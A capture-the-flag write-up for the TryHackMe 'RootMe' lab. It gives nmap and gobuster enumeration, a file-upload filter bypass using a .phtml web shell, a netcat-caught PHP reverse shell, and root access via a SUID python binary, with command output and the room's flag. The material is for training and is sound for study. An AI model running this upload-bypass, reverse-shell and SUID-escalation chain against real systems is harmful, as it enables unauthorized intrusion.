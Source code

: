 # RootMe (THM)
https://tryhackme.com/room/rrootme


## Port scan (discovery phase skipped as THM gives you the IP address)

### Command used: nmap<br>
<br>

```
nmap -sV -p22,80 rootme.vul
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-06 02:06 CDT
Nmap scan report for rootme.vul (10.10.74.64)
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.63 seconds
```

## HTTP enumeration

### Command used: gobuster
<br>

```
gobuster dir --url http://rootme.vul --wordlist /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://rootme.vul
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/06 02:07:30 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.hta                 (Status: 403) [Size: 275]
/css                  (Status: 301) [Size: 306] [--> http://rootme.vul/css/]
/index.php            (Status: 200) [Size: 616]                             
/js                   (Status: 301) [Size: 305] [--> http://rootme.vul/js/] 
/panel                (Status: 301) [Size: 308] [--> http://rootme.vul/panel/]
/server-status        (Status: 403) [Size: 275]                               
/uploads              (Status: 301) [Size: 310] [--> http://rootme.vul/uploads/]
                                                                                
===============================================================
2022/04/06 02:09:14 Finished
===============================================================
```

## Reverse PHP shell
<br>

Nothing interesting at the base URL:<br><br>

![browsing the url](./docs/rootme/rootme_01_web.png)

Navigating to /panel brings us to a file upload page. Of course, the first thing we're going to do is try and upload a PHP shell, but .php files are not allowed:<br><br>

![php shell upload failure](./docs/rootme/rootme_02_panel1.png)

...but .phtml files ARE allowed! Renaming our file to *.phtml allowed us to upload it:<br><br>

![php shell renamed to phtml success](./docs/rootme/rootme_03_panel2.png)

*For this step, p0wny@shell was used* (https://github.com/flozz/p0wny-shell)<br>

(/uploads/shell.phtml)

![p0wny@shell](./docs/rootme/rootme_04_p0wny.png)

Here, we have our first flag - user.txt:<br><br>

![user flag](./docs/rootme/rootme_05_userflag.png)

We're not done yet. There's still a root.txt flag somewhere. We change course and upload a PHP reverse shell (this should have been done in the first place) (https://pentestmonkey.net/tools/web-shells/php-reverse-shell). We configure the shell, start a listener on netcat, and launch the shell:

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.2.105.239] from (UNKNOWN) [10.10.74.64] 38480
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:07:34 up  1:05,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

We then spawn bash from Python:

```
$ python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo
fg
export TERM=xterm
```

## Privilege escalation
<br>

Now that we have a stable shell, we look for binaries with the SUID bit enabled:

```
find / -type f -user root -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
```

The interesting find here /usr/bin/python. We head on over to GTFOBins and search for possible exploits (https://gtfobins.github.io/gtfobins/python/#suid).

```
$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
```

Now that we're running as root, we go look for the root.txt flag:

```
# cd root
cd root
# ls
ls
root.txt
# cat root.txt
cat root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```